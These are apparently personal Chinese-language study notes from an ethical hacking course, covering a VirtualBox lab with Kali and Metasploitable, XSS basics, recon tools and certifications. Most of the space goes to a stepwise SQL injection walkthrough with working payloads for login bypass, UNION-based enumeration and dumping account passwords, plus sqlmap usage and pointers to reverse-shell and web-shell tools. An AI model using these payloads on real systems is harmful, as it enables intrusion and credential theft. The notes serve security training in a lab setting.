 # udemy the-complete-ethical-hacking-course 笔记

## 黑客实验室

### [virtualbox](https://www.virtualbox.org/wiki/Downloads)

+ 安装 virtualbox
+ 安装 Extension Pack
  + 偏好设置/扩展/先-后加+
  + 减除network重建
教程的vbox里安装了
1. win10
2. kali 2019.2
3. kali 2019.4
4. metasplotable
5. google pixel 3

+ 安装 kali linux
  + https://www.kali.org/
  + https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/
## xss
DVWA

url 地址能在浏览器里执行的叫 XSS
    xss 只要客户骗受害者点击就能偷到用户的密码
    beff
sql 注入则是用户的提交能在服务器里执行
    黑客只能让服务器执行恶意的代码就可以了

## python
### 改 mac

## sql injection
### 原则
各种变化都离不开这些

+ metasploitable database: multilidae
+ test: select * from users where username = 'x' and password='1111' AND 1 =1 #'
    + 把原来 password='' 变成 'xx' and 1=1 #', 密码处填 "xx' and 1=1 #"
    + 如果能进,表明存在漏洞
+ hack: select * from users where username = 'admin' and password='1' OR 1 =1 #'
+ hack2: select * from users where username = 'admin'# and password='1' OR 1 =1 #'
+ hack3: http://url/login?username=admin'#&pass...
    + #要改成 %23
+ hack4: http://url/login?username=admin' union select * from accounts #&pass...
+ hack5: http://url/login?username=admin' order by 1 #&pass...
    + http://url/login?username=admin' order by 10 #&pass...
    + 一般写10就会报错,看错误就能知道表名什么的,可以回到 hack4
    + http://url/login?username=admin' union select 1,2,3,4,5 #&pass...
    + http://url/login?username=admin' union select 1,database(),user(),version(),5 #&pass...
+ hack6: union select 1,table_name,null,null,5 from information_schema.tables
    + union select 1,table_name,null,null,5 from information_schema.tables where table_schema = 'dbName'
+ hack7: union select 1,column_name,null,null,5 from information_schema.columns where table_name = 'TbName'
    + hack7: union select 1,usename,password,is_admin,5 from accounts

### 工具

+ sqlmap
 sqlmap -u http://url/login?username=admin&pass...
 成功后可以看数据库的名/表名/列名/具体数据 详见使用说明
owasp zap
zap analysis

## certification

offensive security
+ oscp
+ oswp
EC council
+ CEH
+ ECSA

## anaconda python
2019年6月15日，清华大学开源软件镜像站宣布，经与 Anaconda, Inc. 的沟通，获得了镜像的授权，将于近期恢复 Anaconda 相关服务[20]。

essential
## web reconnaisessance(侦测)

### maltego

### metasploitable
robot.txt
dirb

### exploit-db

### https://github.com/TheRook/subbrute
### dvwa
Reverse tcp command
google Reverse shell commands
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

weevely
### website information gathering online

[Information-Gathering](http://www.securityidiots.com/Web-Pentest/Information-Gathering/Part-1-information-Gathering-with-websites.html)

+ [netcraft](https://toolbar.netcraft.com/site_report)
+ [yougetsignal](https://www.yougetsignal.com/tools/web-sites-on-web-server/)
+ <https://archive.org/>
+ whois lookup:
    + https://lookup.icann.org/lookup
    + http://whois.domaintools.com/

[其它](https://securitytrails.com/blog/top-20-intel-tools)